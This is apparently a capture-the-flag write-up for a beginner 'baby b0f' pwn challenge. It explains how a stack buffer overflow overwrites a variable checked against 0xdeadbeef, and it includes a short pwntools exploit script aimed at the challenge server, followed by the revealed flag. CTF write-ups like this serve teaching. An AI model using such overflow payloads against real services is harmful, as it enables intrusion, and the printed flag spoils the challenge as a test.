


# baby b0f (pwn)



## Walkthrough

Initial testing a simple overflow failed so I dove into the binary using ghidra



Looks like it does a simple compare from user input to see if a variable is = 0xdeadbeef. Putting this in we are still unsucessful so I used GDB to see what the stack was doing. After some messing around I noticed I could overflow the buffer in order to alter the variable that is being checked.

Code below for flag

```python
#!/usr/bin/env python

from pwn import *

p = remote('68.183.158.95', 8989)
payload = ''
payload+= 'A'*10 # Fill the buffer
payload+= '\xef\xbe\xad\xde' # match the CMP instruction
p.sendline(payload)
p.interactive()
```

<details>
	<summary>Flag</summary>

d4rk{W3lc0me_t0_th3_w0rld_0f_pwn}c0de
</details>